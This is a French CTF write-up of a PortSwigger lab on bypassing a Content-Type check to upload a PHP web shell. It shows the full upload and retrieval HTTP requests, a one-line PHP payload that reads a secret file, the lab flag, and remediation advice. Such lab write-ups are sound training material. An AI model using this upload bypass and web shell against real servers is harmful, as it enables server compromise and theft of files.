






# Lab: Web shell upload via Content-Type restriction bypass

> **CTF :** PORTSWIGGER  

> **Catégorie :** File upload vulnerabilities  

> **Difficulté :** APPRENTICE  

> **Points :** ✅  

> **Date :** 26/07/2026  

> **Statut :** ✅ Résolu

---

## 📌 Description du Challenge

> *This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
You can log in to your own account using the following credentials: wiener:peter.*

---

## 🎯 Objectif

- Pour résoudre le laboratoire, nous devons télécharger un shell Web PHP de base pour exfiltrer le contenu du fichier /home/carlos/secret. Nous allons ensuite soumettre ce mot secret en utilisant le bouton fourni dans la bannière du laboratoire.
---

## 🔍 Reconnaissance

- Pour résoudre le laboratoire, nous devons télécharger un shell Web PHP de base pour exfiltrer le contenu du fichier /home/carlos/secret. Nous allons ensuite soumettre ce mot secret en utilisant le bouton fourni dans la bannière du laboratoire.

**Observations :**
-  Ce niveau nécessite la création d'un script PHP local afin de tenter un téléversement (upload). L'application retourne une erreur de restriction sur le type de fichier, limitant les extensions autorisées au JPEG et au PNG. Pour contourner cette validation, nous allons intercepter et rejouer les requêtes POST et GET via le module Repeater de Burp Suite, en suivant la même méthodologie que le niveau précédente.



**Outils utilisés :**
- BurpSuites

---


## ⚔️ Exploitation

### Étape 1 — Repeater   

-  Nous allons maintenant envoyer les requêtes POST et GET vers l'onglet Repeater pour pouvoir les manipuler. 

### Étape 2 —  POST

- Dans le Repeater, nous modifions la requête POST : nous renommons le fichier en exploit.php et remplaçons son contenu textuel par le payload PHP suivant : <?php echo file_get_contents('/home/carlos/secret'); ?>. Il ne reste plus qu'à envoyer la requête.


**Requête :**  


```http
POST /my-account/avatar HTTP/2
Host: 0aa600c60476498980b64ef7001e0054.web-security-academy.net
Cookie: session=Pl7hJEXxIXcCn0ibcIuth2P0kq5fAd0b
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary862b5eb404330934bd364ec0a95991cf
Content-Length: 522
Origin: https://0aa600c60476498980b64ef7001e0054.web-security-academy.net
Referer: https://0aa600c60476498980b64ef7001e0054.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary862b5eb404330934bd364ec0a95991cf
Content-Disposition: form-data; name="avatar"; filename="payload.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------geckoformboundary862b5eb404330934bd364ec0a95991cf
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary862b5eb404330934bd364ec0a95991cf
Content-Disposition: form-data; name="csrf"

Sl2D3tDD0UAgl9iZ71SfcGP0Gknk5GFX
------geckoformboundary862b5eb404330934bd364ec0a95991cf--


```

**Réponse :**  

```http
HTTP/2 200 OK
Date: Mon, 17 Aug 2026 18:52:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/exploit.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```


---


---

### Étape 3 — GET

-  Nous basculons ensuite sur la requête GET dans le Repeater. Nous modifions l'URL pour cibler notre script : GET /files/avatars/exploit.php HTTP/2. En envoyant la requête, le serveur exécute le code PHP et nous retourne le contenu du fichier secret dans le corps de la réponse.


**Payload utilisé :**
```http
GET /files/avatars/payload.php HTTP/2
Host: 0aa600c60476498980b64ef7001e0054.web-security-academy.net
Cookie: session=Pl7hJEXxIXcCn0ibcIuth2P0kq5fAd0b
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0aa600c60476498980b64ef7001e0054.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers

```

---

## 🚩 Flag  

HZUvPgovw0dL4tiN57b6yuCFKvPAZyzL



---

## 🛡️ Remédiation
Pour corriger définitivement cette vulnérabilité d'upload de fichier (File Upload Vulnerability), le développeur doit appliquer les mesures suivantes :

1. Validation stricte de l'extension : Mettre en place une liste blanche (whitelist) d'extensions autorisées (ex: .jpg, .jpeg, .png). Toutes les autres extensions (comme .php) doivent être systématiquement rejetées.  

2. Vérification du type MIME : Ne pas se fier uniquement à l'extension. L'application doit vérifier le paramètre Content-Type de la requête et analyser la structure réelle du fichier pour s'assurer qu'il s'agit bien d'une image (en utilisant des bibliothèques de traitement d'image). 
3. Renommage aléatoire des fichiers : Modifier automatiquement le nom du fichier téléchargé lors de son enregistrement sur le serveur (par exemple, générer un identifiant unique de type UUID : 59f2a3...png). Cela empêche l'attaquant de deviner le chemin d'accès à son payload.  
4. Neutralisation de l'exécution : Stocker les fichiers téléversés dans un répertoire dédié en dehors de la racine Web, ou configurer le serveur (via .htaccess sur Apache ou la configuration Nginx) pour désactiver l'exécution des scripts (comme PHP) dans le dossier des uploads.


---

## 💡 Points Clés à Retenir
Le niveau Apprentice de PortSwigger pose les bases indispensables de la trame d'attaque. Voici ce qu'il faut graver dans votre mémoire de chercheur de failles :  

- Le flux POST / GET est un indice : Dès qu'une application génère une requête POST pour envoyer une donnée, suivie immédiatement d'une requête GET pour l'afficher ou la charger, analysez comment le serveur fait le lien entre les deux. Si le lien se fait simplement par le nom du fichier brut, il y a de fortes chances qu'une injection soit possible.  

- L'absence de filtre est le premier réflexe à tester : Ne cherchez pas directement des techniques de contournement complexes (double extension, caractères nuls, modification du Content-Type). Testez toujours l'envoi d'un fichier .php brut en premier pour vérifier si le développeur a tout simplement oublié de mettre une sécurité. 

- Le Repeater est votre meilleur ami : Pour ce type de faille, évitez de refaire l'upload en boucle depuis le navigateur. Interceptez une seule fois, envoyez dans le Repeater, et modifiez le nom ainsi que le contenu à l'infini pour analyser les réponses du serveur en temps réel.
- Un Web Shell minimaliste suffit : Pour lire un fichier local, pas besoin d'un script lourd. La fonction PHP file_get_contents() ou system() associée à un echo suffit amplement pour exfiltrer une information rapidement. 

---

## 📚 Références

- [PortSwigger — Lab: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*
*PORTSWIGGER🌍*
